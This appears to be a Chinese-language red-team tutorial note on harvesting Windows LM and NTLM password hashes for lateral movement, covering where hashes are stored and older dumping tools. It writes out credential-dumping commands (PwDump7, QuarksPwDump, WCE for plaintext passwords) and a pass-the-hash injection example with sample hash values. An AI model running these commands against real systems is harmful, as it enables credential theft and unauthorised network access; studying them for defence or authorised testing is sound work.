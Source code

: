 ```yaml
---
title: 【红队】横向移动之--散列值获取
---
```

# LM Hash和NTML Hash

Windows操作系统中的密码由两部分加密组成，即`LM Hash`和`NTML Hash`。

LM Hash（LAN Manager Hash），本质为DES加密，密码不足14位用`0`补全。

自`Server 2003`之后，Windows的认证方式均为NTML Hash。

自`Server 2008`开始默认禁用`LM Hash`， 当密码超过14位时候会采用NTLM加密

如果抓取的`LM Hash`为 `AAD3B435B51404EEAAD3B435B51404EE`，说明密码为空或`LM Hash`被禁用。

|      | 2000 | xp   | 2003 | Vista | win7 | 2008 | 2012 |
| :--- | :--- | :--- | :--- | :---- | :--- | :--- | :--- |
| LM   | √    | √    | √    |       |      |      |      |
| NTLM | √    | √    | √    | √     | √    | √    | √    |

 前面三个，当密码超过14位时候会采用NTLM加密。

**Hash一般存储在两个地方**

> **SAM文件**：存储在本机，对应本地用户
>
> **NTDS.DIT文件**：存储在域控上，对应域用户

------

关于内网协议的深入研究可以参考 daiker 师傅的总结（Kerberos、NTML、LDAP）

地址：https://daiker.gitbook.io/windows-protocol/ 

**比较老的工具**

`WCE`、`Pwdump7`、`Quarks PwDump`等（都会被杀软查杀）

```bash
PwDump7.exe
QuarksPwDump.exe --dump-hash-local
```

 **WCE**常用于列出登录会话，以及列出、、修改、删除关联凭据（LM Hash、NTLM Hash、明文密码和kerberos票据）

```bash
#抓系统管理员明文密码
wce.exe -w

#抓hash，列出登录的会话和NTLM凭据
wce.exe -l

#重点，在无法破解目标hash明文的情况下可用hash注入
wce.exe -s 目标用户名:目标域名或IP:LM-HASH:NT-HASHwce.exe -s Administrator:192.168.2.130:F0D412BD764FFE81AAD3B435B51404EE:209C6174DA490CAEB422F3FA5A7AE634
```
